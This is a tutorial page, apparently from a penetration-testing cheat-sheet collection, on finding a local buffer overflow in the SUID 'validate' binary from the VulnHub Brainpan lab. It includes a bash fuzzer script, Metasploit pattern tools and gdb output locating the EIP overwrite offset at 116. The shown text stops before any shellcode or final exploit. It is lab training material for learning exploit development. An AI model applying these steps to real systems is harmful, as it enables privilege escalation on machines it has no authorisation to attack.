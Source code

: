 # Local Buffer Overflow
Have you found a Linux ELF binary that shows signs of homebrew and is SUID to root? Let's analyze the `/usr/local/bin/validate` file from the Brainpan lab exercise from VulnHUB.com

## Bring it on Home
First, we need to bring the binary back to our attacker machine for analysis. We can do so two different ways that are descibed in the [Data Exfiltration Infiltration](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/data-exfiltration-infiltration.md) cheat sheet in the Grimoire. We do this so that we can easilt analyze the binary using forensics tools that the compromised host might not have installed. 

Ensure that the binary was successfully transferred without corruption by using the `md5sum` command on the binary at the compromised Target system and compare it to the md5sum of the binary on your local Attacker machine.
```
root@attacker-machine:~# md5sum validate
9e7865f1e663529db5d8b1ecb7118490  validate
```
```
user@target-machine:~$ md5sum validate
9e7865f1e663529db5d8b1ecb7118490  validate
```
## File Command
The #1 step for binary analysis on our Attacker system is to run the `file` command. The output of this command is valuable in ensuring,
1. What type of file we have, in our case ELF 32-bit
2. Which libraries/interpreters are required for the binary to execute, in our case was , `/lib/ld-linux.so.2`

So, to get [`/lib/ld-linux.so.2`](https://packages.debian.org/stretch/libc6-i386) installed on our local Attacker system, we will need the `libc6-i686` package.
```
root@attacker-machine:~# apt install libc6-i386
```
## Strings
The #2 step to analyzing a binary is to use the `strings command`. Strings will prvide us with more clues, in our case we see,
```
usage %s <input>
validating input...
passed.
```
So, we know that the application does handle input.
### Fuzz it
Next, we simply pass the application input in increasing sizes until we get it to Segmentation Fault. I wrote a nice little script that will determnine the buffer size for us below. Simply pass the binary's name, n our case `validate`, as an argument.
```
#!/bin/bash
# Standard In C program fuzzer
# 2019 WeakNet Labs, Douglas Berdeaux
buf="" # this will be the buffer overflow
appname=$1 # pass to me the app name
while [ 1 ]
 do
  buf+="A"
  #printf "[*] buf is now: $buf\n";
  seg=$(./${appname} $buf || echo "0x031337" | egrep "0x031337"| wc -l)
  if [[ "$seg" == "1" ]]
   then
    printf "[!] Segmentation Fault Successful! ($(echo -n $buf|wc -m)) bytes.\n"
    exit;
  fi
done;
```
and the output,
```
root@attacker-machine:~# ./stdin-fuzz.sh validate
[!] Segmentation Fault Successful! (112) bytes.
root@attacker-machine:~#
```
The length of `112` bytes crashed our program, but we probably need (at least 4) more bytes to overwrite EIP. To find out how many extra bytes we need, we will use `create_pattern.rb` module from the Metasploit Framework as so,
```
/infose/exploitation/metasploit-framework/tools/exploit/pattern_create.rb -l 144 # added 32 bytes
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7
```
Start `validate` with the GNU Debugger, `gdb` as so,
```
root@attacker-machine:~# gdb validate 
Reading symbols from validate...done.
gdb-peda$ run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7
Starting program: /root/Penetration Testing/VulnHUB/Brainpan/files/validate Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd1b8 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7")
EBX: 0x41366441 ('Ad6A')
ECX: 0xffffd540 ("5Ae6Ae7")
EDX: 0xffffd241 ("5Ae6Ae7")
ESI: 0x2 
EDI: 0xf7fbd000 --> 0x1b2db0 
EBP: 0x64413764 ('d7Ad')
ESP: 0xffffd230 ("Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7")
EIP: 0x39644138 ('8Ad9')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x39644138
[------------------------------------stack-------------------------------------]
0000| 0xffffd230 ("Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7")
0004| 0xffffd234 ("e1Ae2Ae3Ae4Ae5Ae6Ae7")
0008| 0xffffd238 ("2Ae3Ae4Ae5Ae6Ae7")
0012| 0xffffd23c ("Ae4Ae5Ae6Ae7")
0016| 0xffffd240 ("e5Ae6Ae7")
0020| 0xffffd244 ("6Ae7")
0024| 0xffffd248 --> 0x8048500 (<validate+76>:	call   0x8c048503)
0028| 0xffffd24c --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x39644138 in ?? ()
gdb-peda$ quit
root@attacker-machine:~#  /infosec/exploitation/metasploit-framework/tools/exploit/pattern_offset.rb -q 39644138
[*] Exact match at offset 116
root@attacker-machine:~#  
```
We can see that the EIP was overwritten with, 39644138, which we validated the location in the buffer string to be `116` using the `pattern_offset.rb` Metsplaoit Ruby module.
